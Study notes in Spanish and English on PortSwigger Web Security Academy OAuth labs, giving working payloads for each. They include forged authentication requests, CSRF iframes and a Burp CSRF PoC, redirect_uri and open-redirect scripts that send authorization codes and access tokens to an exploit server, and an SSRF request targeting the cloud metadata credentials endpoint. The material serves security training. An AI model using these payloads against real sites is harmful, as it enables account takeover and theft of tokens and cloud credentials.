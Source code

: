 
Mientras navegas por la web, es casi seguro que te has encontrado con sitios que te permiten iniciar sesión con tu cuenta de redes sociales. Lo más probable es que esta función esté diseñada con el popular marco OAuth 2.0. OAuth 2.0 es muy interesante para los atacantes porque es extremadamente común y, por naturaleza, propenso a errores de implementación. Esto puede generar una serie de vulnerabilidades, lo que permite a los atacantes obtener datos confidenciales de los usuarios y, potencialmente, eludir la autenticación por completo.

“Flujo de Oauth” → Authorization e Implicit que son los más comunes.

<hr>

### LAB: Authentication bypass via OAuth implicit flow

* Este ataque permite iniciar sesión en las cuentas de otros usuarios sin conocer la contraseña. 

```js
POST /authenticate HTTP/2

{
	"email":"wiener@normal-user.net",
	"username:"wiener",
	"token":"value-token"
}
//Cambiamos credenciales email,username por el de user victim `carlos`

{
	"email":"carlos@carlos-montoya.net",
	"username:"carlos",
	"token":"value-token"
}
//OBTENEMOS EN LA RESPONSE EL TOKEN, nos logueamos como carlos sin su pass.
```

### LAB: Auth0 Profile linking `server-exploit`

* Linking code es cuando se presenta una opción de `attach a social profile`

* Este ataque permite adjuntar un perfil de redes sociales asociado a otro usuario (con permisos administrativos por ejm), con ayuda de `CSRF`
* No está presente en el Flujo Auth0 el param `state`que lo hace vuln a CSRF.

```js
No CSRF token protection:
1. Oauth linking?code= option, automatically logs you in, capture social logging linking, copy URL and drop important drop. 
Send to Victim in exploit-server
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/oauth-linking?code=STOLEN-CODE"></iframe>
Now if you log out and log in using social media profile you are instantly logged as administrator
```

### LAB: Auth0 Hijacking Via redirect_uri `server-exploit` `redirect_uri`

* Este es directamente modificar el `redirect_uri` tomar la peticion con `intercept is on`

* Este ataque permite llevar a cabo el robo de códigos de Autorización asociado a otro usuario (Administrator) por ejm, mediante el param redirect_uri. 
* Debemos interceptar la petición de logueo: 
	* `GET /auth?client_id=epynpc3qu0o16azsibj2b&redirect_uri=https://LAB-ID.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email`
	* Y la `redirect_uri` es la que reemplazamos por el server-exploit, para que nos redirija al user wiener y poder tener acceso al panel de administrator.
	* Con `<iframe>` o con un CSRF PoC. 

```html
<iframe src="https://oauth-0a81005c03e151ba82fcebc1024600a0.oauth-server.net/auth?client_id=epynpc3qu0o16azsibj2b&redirect_uri=https://ID-EXPLOIT.net/oauth-callback&response_type=code&scope=openid%20profile%20email"></iframe>

<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

* En los `logs` del server exploit podemos ver reflejado el Token. 

![[Pasted image 20250218143314.png]]

### LAB: Auth0 Access Token Via Open Redirect - Hijack `server-exploit` `/me`

* Este ataque permite que un atacante filtre tokens de acceso a páginas arbitrarias desde la aplicación cliente/legitima. 
* Con un open redirect se lleva a cabo el ataque, se toma el token de acceso y se da paso para poder acceder a la API Key del user administrator. 
* Find Open redirect `/post/next?path=exploit-server`
* `/me` es la que tiene el valor de la `apiKey`

```js
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>

```

![Bearer Access Token](Pasted%20image%2020250221182951.png)

* window.location = '/?'+document.location.hash.substr(1) es 1 porque accederemos solo al primer param que es `access_token`, luego nos llega el acces token a los logs y listo accedemos. 
* GET /me HTTP/2 - con la cookie `Authorization: Bearer ACCESS_TOKEN_HERE` nos retorna la ApiKey, y listo nea. 

### LAB: Auth0 Access Token Via Proxy Page `server-exploit`

* Este ataque permite robar un token de acceso con una 2da vulnerabilidad en conjuncion con un proxy para exfiltrar el access token. -> ApiKey Administrator

```js
<iframe src="https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT_ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>
<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
```

* GET /me HTTP/2 - con la cookie `Authorization: Bearer ACCESS_TOKEN_HERE` nos retorna la ApiKey, y listo nea. 

### LAB: Auth0 `SSRF` via OpenID dynamic client registration

* Este ataque permite generar un vector SSRF con unos datos inseguros del cliente/user, el ataque se basa en poder acceder a: 
	* `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/`y robar la clave de acceso secreta.

	## Pasos para reproducir:

	```json
	GET /.well-known/openid-configuration HTTP/2
	Host: oauth-ID.oauth-server.net
	```

	```json
	POST /reg HTTP/2
	Host: oauth-ID.oauth-server.net
	Content-Type: application/json
	Content-Length: 141
	
	{
	    "redirect_uris" : [
	        "<https://example.com>"
	    ],
	    "logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
	}
	```

	```json
	GET /client/CLIENT_ID_DE_LA_RESPONSE/logo HTTP/2
	Host: oauth-ID.oauth-server.net
	Content-Type: application/json
	Content-Length: 0
	```

<hr>

### Apuntes @krakenEu

##### Capture OAuth link

And send it in an iframe to make the victim perform the ouathflow. Then login with social media, it will load the victim user. `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/oauth-linking?code=STOLEN-CODE"></iframe>`

##### Open registration

Notice registration of a user being made and logo_uri being used

```
POST /reg HTTP/1.1 
Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net 
Content-Type: application/json 

{ "redirect_uris" : [ "https://example.com" ], "logo_uri" : "https://BURP-COLLABORATOR-SUBDOMAIN" }
```

##### hijacking via redirect_uri

Change the `redirect_uri` to point to the exploit server, then send the request and follow the redirect. Go to the exploit server's access log and observe that there is a log entry containing an authorization code. This confirms that you can leak authorization codes to an external domain.

Load in the exploit server the payload and send to leak the code generated with CSRF POC of burp

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://oauth-0afd008a04bf7575834367e902220069.oauth-server.net/auth">
      <input type="hidden" name="client&#95;id" value="apbrisws6akg4x5jd0640" />
      <input type="hidden" name="redirect&#95;uri" value="https://exploit-0a6b00a4043175da8300687b01c80094.exploit-server.net/" />
      <input type="hidden" name="response&#95;type" value="code" />
      <input type="hidden" name="scope" value="openid&#32;profile&#32;email" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

No login with the code in: GET /oauth-callback?code=nwCa06DxlsV3J34Y-BHm--GuKM_2pW3jHL-HLa8ioGs Copy URL in original session and delete carlos

##### Stealing OAuth tokens via open redirection:

Poc to perform an open redirect found, we are using a path traversal found in oauth along side with the open redirection of post/next site, then appending if found the access token to the request.

```js
<script>
if (!document.location.hash){
window.location="https://oauth-0ad300af0450eb0781bbfff3022500b2.oauth-server.net/auth?client_id=ag2rq0tbm8hchcusqw9gk&redirect_uri=https://0ace00ad0408eb1c82e501ce00c50007.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ad900fd04efeb54826e007301e800f9.exploit-server.net/exploit&response_type=token&nonce=1870905122&scope=openid%20profile%20email"
} else {
window.location = '/?'+document.location.hash.substr(1)
}
</script>
```

Take the token and use it to access /me and display the admin info